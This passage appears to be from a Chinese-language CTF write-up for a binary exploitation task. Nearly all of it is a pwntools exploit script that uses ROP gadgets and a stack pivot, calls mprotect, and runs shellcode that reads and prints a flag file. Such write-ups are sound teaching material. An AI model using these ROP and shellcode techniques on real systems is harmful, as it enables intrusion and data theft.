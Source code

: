 同时由于是静态编译，这道题中也可以找到 mprotect 函数，于是就可以栈迁移后像第一题一样传入 catflag 的 shellcode 即可：

```python
syscall_ret = 0x0000000000425e04
pop_rdi_ret = 0x00000000004018c2
pop_rsi_ret = 0x0000000000402828
pop_rdx_ret = 0x00000000004017cf
pop_rax_ret = 0x00000000004583c7
str_flag    = next(elf.search(b"/home/task3/flag4\x00"))
lg("str_flag")
buf_addr    = 0x4df000+0x800

ru(b'Give me your data: \n')
payload = b"a"*(0x20+8+0x10 - 8)
payload += p64(buf_addr)

payload += p64(pop_rdx_ret) + p64(0xdeadbeef)
payload += p64(pop_rsi_ret) + p64(buf_addr-0x30)
payload += p64(pop_rdi_ret) + p64(0)
payload += p64(0x401e28)

s(payload)

import time
time.sleep(1)

shellcode_addr = 0x4df000 + 0x800 + 0x500
payload = b"a"*0x30 + p64(buf_addr-0x30)
payload += p64(pop_rdx_ret) + p64(7)
payload += p64(pop_rsi_ret) + p64(0x1000)
payload += p64(pop_rdi_ret) + p64(buf_addr & 0xffffffff000)
payload += p64(elf.sym["mprotect"])
payload += p64(shellcode_addr)
payload = payload.ljust((shellcode_addr-(buf_addr-0x30)), b"\x00")
payload += asm(r"""
    /* push b'/home/task3/flag4\x00' */
    push 0x34
    mov rax, 0x67616c662f336b73
    push rax
    mov rax, 0x61742f656d6f682f
    push rax
    /* call open('rsp', 'O_RDONLY', 'rdx') */
    push SYS_open /* 2 */
    pop rax
    mov rdi, rsp
    xor esi, esi /* O_RDONLY */
    syscall
    /* call sendfile(1, 'rax', 0, 0x7fffffff) */
    mov r10d, 0x7fffffff
    mov rsi, rax
    push SYS_sendfile /* 0x28 */
    pop rax
    push 1
    pop rdi
    cdq /* rdx=0 */
    syscall
""")
s(payload)
```

---